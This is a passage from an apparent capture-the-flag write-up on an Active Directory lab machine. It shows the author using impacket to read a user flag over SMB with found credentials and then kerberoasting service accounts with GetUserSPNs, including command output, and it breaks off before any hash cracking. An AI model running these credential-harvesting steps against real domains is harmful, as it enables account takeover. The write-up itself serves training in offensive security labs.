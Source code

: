 The Users share is readable to the user we found so with the credentials you may read the user flag. I used the impacket SMB client to check if the user flag is accessible.

```terminal
$impacket-smbclient 10.10.99.112/FAKE:FAKE@10.10.99.112
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
backup
C$
IPC$
NETLOGON
SYSVOL
Users
# use Users
# ls
drw-rw-rw-          0  Thu Jul  4 22:48:22 2024 .
drw-rw-rw-          0  Wed Jun 18 22:14:47 2025 ..
drw-rw-rw-          0  Thu Jul  4 22:49:01 2024 admin
drw-rw-rw-          0  Sat Aug  2 19:54:39 2025 Administrator
drw-rw-rw-          0  Sun Jun 16 03:49:29 2024 All Users
drw-rw-rw-          0  Sun Jun 16 02:51:08 2024 Default
drw-rw-rw-          0  Sun Jun 16 03:49:29 2024 Default User
-rw-rw-rw-        174  Sun Jun 16 03:46:32 2024 desktop.ini
drw-rw-rw-          0  Sat Jun 15 17:54:32 2024 Public
drw-rw-rw-          0  Mon Jun 17 17:24:32 2024 FAKE
# cd FAKE
# cd Desktop
# ls
drw-rw-rw-          0  Fri Jul 25 17:51:44 2025 .
drw-rw-rw-          0  Mon Jun 17 17:24:32 2024 ..
-rw-rw-rw-        282  Mon Jun 17 17:24:32 2024 desktop.ini
-rw-rw-rw-         33  Fri Jul 25 17:51:44 2025 user.txt
# get user.txt
```

## Root

For escalating privileges you can follow the description of the room and check for any kerberoastable users. I used impacket for this task again:
```terminal
$impacket-GetUserSPNs SOUPEDECODE.LOCAL/FAKE:FAKE -dc-ip 10.10.46.83 -outputfile hashes_kerberos.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 17:32:23.726085  <never>               
FW/ProxyServer          firewall_svc              2024-06-17 17:28:32.710125  <never>               
HTTP/BackupServer       backup_svc                2024-06-17 17:28:49.476511  <never>               
HTTP/WebServer          web_svc                   2024-06-17 17:29:04.569417  <never>               
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 17:29:18.511871  <never>               
```
